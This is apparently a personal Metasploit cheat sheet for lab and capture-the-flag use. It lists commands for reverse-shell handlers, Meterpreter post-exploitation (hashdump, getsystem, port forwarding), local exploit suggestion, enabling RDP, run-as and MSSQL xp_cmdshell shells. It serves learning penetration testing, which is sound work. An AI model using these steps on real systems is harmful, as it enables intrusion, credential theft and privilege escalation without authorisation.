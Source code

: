 # Metasploit

This page is just basic stuff I forget all the time. There are other Metasploit tips in sections where it's relevant.

## Advanced options

Metasploit is so derp-easy that you can often exploit a machine by setting the remote IP in `RHOST` and hitting the pew-pew button.

But sometimes that doesn't work and you cry because you know you're just a lame script kiddie pretending to be a hacker. However, you can aspire to be a _decent_ script kiddie by knowing how to use more advanced options in Metasploit.

Exploits might not work because of an unusual configuration or path issue, which you can set with either `show options` or `show advanced`. The `advanced` section may let you set`verbose = true` to provide more information about why an exploit isn't working.

You might also need to set the correct target:

```text
show targets
set target [target number]
```

[MSO8-067](https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi) sometimes needs this because the module can't always identify the exact operating system version and language pack.

It's also important to pay attention to the default payload. Occasionally, you'll run into something weird like an Apache web server running on Windows, so the default Unix payload won't work.

Check and modify the payload:

```text
show payloads
set payload [whatever]
```

## Meterpreter

To catch shells using meterpreter:

```text
use exploit/multi/handler
set LHOST [attack machine]
set LPORT 443
run
```

If you're VPNed into a lab, pay attention to the IP address. I've noticed that the first time this module runs, it defaults to `eth0` and you have to restart it to use something like `tap0`.

### Basic commands

Frequently used commands, mostly to enumerate a victim machine:

```text
getuid      # get current user
sysinfo     # gets OS and hostname
execute     # execute a command
cd          # change directory
pwd         # print working directory
ls          # list files in current directory
mkdir       # make a directory
del         # delete a file
cat         # read the contents of a file
download    # download a file to your machine
hashdump    # get contents of password file
edit        # edit a file with vim
rm          # delete a file
rmdir       # remove directory
upload      # upload a file to the victim
ps          # list running processes
migrate     # move the active process to a designated PID
getpid      # get the current process ID (PID)
kill        # terminate a process by PID
ipconfig    # display network interfaces
portfwd     # forward a port on the victim to a remote service
route       # view or modify routing table
getprivs    # get as many privileges as possible
getsystem   # get Administrator
reboot      # reboot the victim
shutdown    # shut down the victim
reg         # interact with the victim's registry
```

### Sessions

Meterpreter is nice because it lets you maintain multiple shell sessions and use local exploits against them. For example, the [Rejetto exploit](https://www.exploit-db.com/exploits/39161/) always seems to fire a few times and with meterpreter, you can catch every shell session with a single listener.

To list active sessions:

```text
sessions -l
```

To enter a session:

```text
sessions -i [session number]
```

To enter a shell from a session \(not use meterpreter commands\):

```text
shell
```

To exit the shell and return to meterpreter, type `exit`.

## Useful exploits

I mostly use Metasploit on Windows machines because they still feel tricky to me. Below is a list of useful exploits for enumerating and running complex commands.

### Windows

Once you have a meterpreter shell, you can scan for local exploits and run them. Unlike remote exploits which target using IP addresses, local exploits run against a chosen shell session.

To access local exploits, you'll need to jump out of meterpreter using `background` and select one with the `use` command:

```text
meterpreter > background
use /exploit/windows/whatever
show options
[edit options as needed]
set SESSION [session number]
run
```

Check for exploits:

```text
meterpreter > run post/multi/recon/local_exploit_suggester
```

Get a remote desktop:

```text
meterpreter > run post/windows/manage/enable_rdp
```

Run a command as a different user:

```text
background
use post/windows/manage/run_as
[set username and password]
set CMDOUT true # output results of command
set CMD "type C:\Users\Administrator\Desktop\root.txt"
run
```

There are [manual ways to run commands as different user](https://stackoverflow.com/questions/12903629/how-do-i-run-a-program-from-command-prompt-as-a-different-user-and-as-an-admin) but I haven't tried them because I'm lazy.

### MSSQL

If you have credentials, you can use this module to get a shell:

```text
exploit/windows/mssql/mssql_payload
[set username and password]
run
```

It uses the `xp_cmdshell` stored procedure, [which isn't always enabled but can be](https://medium.com/pentestsec/hackthebox-tally-ctf-writeup-e132354d60e1). You could probably do the same exploit manually using a tool like [dbeaver](https://dbeaver.io/), but I haven't managed it yet. If you're attacking a very old version of MSSQL \(e.g. 2000\), you can connnect to it using [sqsh](https://medium.com/@jam3s/mssql-connectivity-with-sqsh-885393f142d4):

```text
sqsh -S [remote host]:[port] -U [username] -P [password]
```

You can then attempt to launch `xp_cmdshell` with the following syntax:

```text
xp_cmdshell 'date'
go
```

